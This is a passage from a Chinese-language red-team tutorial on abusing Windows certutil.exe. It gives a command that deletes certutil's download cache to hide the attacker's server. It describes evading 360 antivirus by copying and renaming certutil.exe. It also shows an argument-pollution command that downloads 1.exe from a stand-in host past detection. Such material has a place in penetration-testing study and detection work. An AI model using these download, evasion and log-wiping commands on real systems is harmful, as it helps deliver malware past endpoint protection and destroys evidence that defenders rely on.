 为了隐藏我们的下载日志，以免自己的服务器暴露，需要对下载的日志进行删除。

```
//删除下载日志的命令
certutil.exe -urlcache -split -f http://example.com/evil.txt delete
```

### bypass 360（该方法有点玄学，时灵时不灵）

在实际的测试过程中，发现360会监控certutil.exe文件，他会读取该文件执行时的commandline，这时候，我们可以将certutil.exe复制到另一个目录并修改文件名，这时候再执行操作360就不会进行拦截。

tips：存在一个问题，复制出来的certutil.exe可能会在多次执行后被360标记。这时候，就删掉该文件，重新选一个目录进行复制，可以解决问题

![image-20210830171929913](../_img/image-20210830171929913-4138597.png)





![image-20210830171958958](../_img/image-20210830171958958-4138597.png)

同时可以使用参数污染的形式进行绕过测试

```
cmd.exe /c "whoami..\..\..\..\..\..\..\..\..\..\..\..\..\windows\system32\certutil.exe" -urlcache -split -f http://example.com/1.exe 1.exe 
```

